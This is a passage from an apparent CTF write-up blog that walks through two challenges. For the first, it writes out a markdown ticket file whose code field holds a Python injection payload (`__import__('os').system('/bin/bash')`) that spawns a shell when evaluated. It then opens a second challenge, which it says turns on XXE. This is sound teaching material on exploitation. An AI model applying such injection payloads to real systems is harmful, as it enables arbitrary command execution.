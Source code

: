 We just need to give it a markdown file which satisfies all those other constraints. 

The following md file will satisfy all those contraints.
```md
# backrooms
## Ticket to me: John Doe

__Ticket Code:__ 
**4+__import__('os').system('/bin/bash')**
```

Upon executing the script we get flag.
![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-13.png)

## Fruity

### Mission 1
The initial foothold in this challege is XXE. teh `/order` endpoints get user input and send it to the server. But before sending everything it sends the data in base64 encoded xml format to `/tracker`.  

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-17.png)
